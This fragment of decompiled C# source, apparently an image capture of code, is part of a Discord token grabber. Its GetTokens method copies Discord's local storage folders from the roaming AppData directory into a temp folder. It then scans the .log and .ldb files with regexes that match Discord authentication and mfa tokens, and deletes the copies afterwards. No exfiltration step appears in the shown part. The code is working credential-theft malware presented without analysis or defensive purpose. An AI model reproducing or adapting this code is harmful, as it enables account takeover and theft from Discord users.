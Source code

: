 ```csharp
				bool flag = !Directory.Exists(directoryName);
				if (flag)
				{
					break;
				}
				try
				{
					Filemanager.CopyDirectory(directoryName, text3);
				}
				catch
				{
				}
			}
		}

		// Token: 0x0600000A RID: 10 RVA: 0x000026CC File Offset: 0x000008CC
		public static string[] GetTokens(Regex TokenRegex)
		{
			List<string> list = new List<string>();
			try
			{
				foreach (string text in Discord.DiscordDirectories)
				{
					string text2 = Path.Combine(Variables.roamingappdata, text);
					string text3 = Path.Combine(Path.GetTempPath(), new DirectoryInfo(text2).Name);
					bool flag = !Directory.Exists(text2);
					if (!flag)
					{
						Filemanager.CopyDirectory(text2, text3);
						foreach (string text4 in Directory.GetFiles(text3))
						{
							bool flag2 = !text4.EndsWith(".log") && !text4.EndsWith(".ldb");
							if (!flag2)
							{
								string text5 = File.ReadAllText(text4);
								Match match = TokenRegex.Match(text5);
								bool success = match.Success;
								if (success)
								{
									list.Add(match.Value ?? "");
								}
							}
						}
						Filemanager.RecursiveDelete(text3);
					}
				}
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex);
			}
			return list.ToArray();
		}

		// Token: 0x04000001 RID: 1
		private static Regex[] TokenRegexs = new Regex[]
		{
			new Regex("dQw4w9WgXcQ:[^.*\\['(.*)'\\].*$][^\"]*", RegexOptions.Compiled),
			new Regex("[\\w-]{24,26}\\.[\\w-]{6}\\.[\\w-]{25,110}", RegexOptions.Compiled),
			new Regex("[a-zA-Z0-9]{24}\\.[a-zA-Z0-9]{6}\\.[a-zA-Z0-9_\\-]{27}|mfa\\.[a-zA-Z0-9_\\-]{84}")
		};

```